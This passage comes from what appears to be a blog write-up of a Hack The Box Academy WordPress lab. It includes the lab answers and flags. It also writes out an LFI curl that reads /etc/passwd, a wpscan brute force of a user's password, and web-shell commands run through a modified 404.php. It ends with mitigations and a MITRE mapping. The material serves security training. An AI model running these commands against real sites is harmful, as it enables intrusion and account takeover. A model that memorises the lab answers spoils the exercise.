
*_Figure 14.2 — Lab execution and output verification (Page 14)_*


### libreoffice

> **Lab Question (Page 15)**: What is the version number of the plugin vulnerable to an LFI?
>
> **Flag / Answer**: `1.1.1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we look in the output.txt content:

Site-Editor plugin version 1.1.1 is LFI vulnerable


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


*_Figure 15.3 — Lab execution and output verification (Page 15)_*


### we did in 'Attacking WordPress Users' section

> **Lab Question (Page 16)**: Use the LFI to identify a system user whose name starts with the letter "f".
>
> **Flag / Answer**: `frank.mclane`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we use the local file inclusion (LFI) vulnerability found in the previous
question:
```bash
curl -s "http://blog.inlanefreight.local/wp-
```
content/plugins/site-
editor/editor/extensions/pagebuilder/includes/ajax_shortcode
_pattern.php?ajax_path=/etc/passwd" | grep '/bash'


Question: Obtain a shell on the system and submit the contents of the flag in
the /home/erika directory.
Answer: HTB{w0rdPr355_4SS3ssm3n7}
Method: Lets bruteforce Erika password using rockyou.txt In the same manner
we did in 'Attacking WordPress Users' section:
```bash
wpscan --password-attack xmlrpc -t 20 -U erika -P
```
rockyou.txt --url http://blog.inlanefreight.local


*
*

The credentials are Erika:010203


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


### Now lets login to Erika's account

Now lets login to Erika's account:

http://blog.inlanefreight.local/wp-login.php
and enter the credentials:

We are in! we will proceed to follow the steps we did in 'Remote Code
Execution (RCE) via the Theme Editor' section (the steps will not be re-shown
here).
When we are done – we will list the files in '/home/erika':
```bash
curl http://blog.inlanefreight.local/wp-
```
content/themes/twentyseventeen/404.php?cmd=ls%20/home/erika


Then request for the flag – 'd0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt':
```bash
curl http://blog.inlanefreight.local/wp-
```
content/themes/twentyseventeen/404.php?cmd=cat%20/home/erika
/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


*_Figure 17.3 — Lab execution and output verification (Page 17)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1078, T1505.003` |
| **Common Weakness Enumerations** | `CWE-200, CWE-434, CWE-89` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Targeting vulnerable WordPress plugins, themes, and core CVEs |
| [`T1078`](https://attack.mitre.org/techniques/T1078/) | **Valid Accounts** | `Initial Access` | Logging into `wp-login.php` with brute-forced administrative credentials |
| [`T1505.003`](https://attack.mitre.org/techniques/T1505/) | **Server Software Component: Web Shell** | `Persistence` | Modifying theme templates (`404.php`) or uploading malicious plugins to achieve RCE |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-200`: Information Exposure Through WordPress User Enumeration](https://cwe.mitre.org/data/definitions/200.html)
- [`CWE-434`: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [`CWE-89`: SQL Injection in Plugins](https://cwe.mitre.org/data/definitions/89.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Monitor access to `wp-login.php` and `xmlrpc.php` and enforce IP allowlisting or multi-factor authentication.
- Disable the built-in theme and plugin file editor by configuring `define('DISALLOW_FILE_EDIT', true);` in `wp-config.php`.
- Run continuous vulnerability scans using WPScan or automated CI/CD dependency checkers.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Hacking WordPress](https://academy.hackthebox.com/module/17) — *Official Hack The Box curriculum track*
- [WPScan Vulnerability Database](https://wpscan.com/vulnerabilities) — *Authoritative repository of WordPress core, plugin, and theme vulnerabilities*
- [WordPress Developer Resources: Hardening WordPress](https://wordpress.org/documentation/article/hardening-wordpress/) — *Official WordPress security recommendations*
- [OWASP WordPress Security Implementation](https://owasp.org/www-community/vulnerabilities/WordPress_Security) — *OWASP community guide to WordPress hardening*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-26-attacking-web-applications-with-ffuf/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 26: Attacking Web Applications with Ffuf</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 27 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-28-cross-site-scripting-xss/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 28: Cross-Site Scripting (XSS) Exploitation</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
